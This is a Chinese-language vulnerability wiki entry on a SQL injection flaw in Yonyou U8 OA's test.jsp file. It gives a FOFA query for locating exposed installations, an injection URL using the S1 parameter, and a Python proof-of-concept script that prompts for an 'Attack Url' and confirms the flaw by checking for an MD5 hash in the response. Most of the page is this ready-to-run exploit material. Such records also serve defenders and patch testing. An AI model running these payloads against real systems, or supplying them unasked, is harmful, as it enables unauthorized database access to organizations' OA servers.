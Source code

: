 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

> [!NOTE]
>
> 用友 U8 OA 

## FOFA

> [!NOTE]
>
> "用友U8-OA"

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E8%87%B4%E8%BF%9COA/%E8%87%B4%E8%BF%9COA%20A6%20test.jsp%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html)



登录页面如下

![](http://wikioss.peiqi.tech/vuln/yongyou-11.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

POC

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![](http://wikioss.peiqi.tech/vuln/yongyou-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

利用方法与致远OA 的SQL注入类似

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle	 : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/yongyou-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
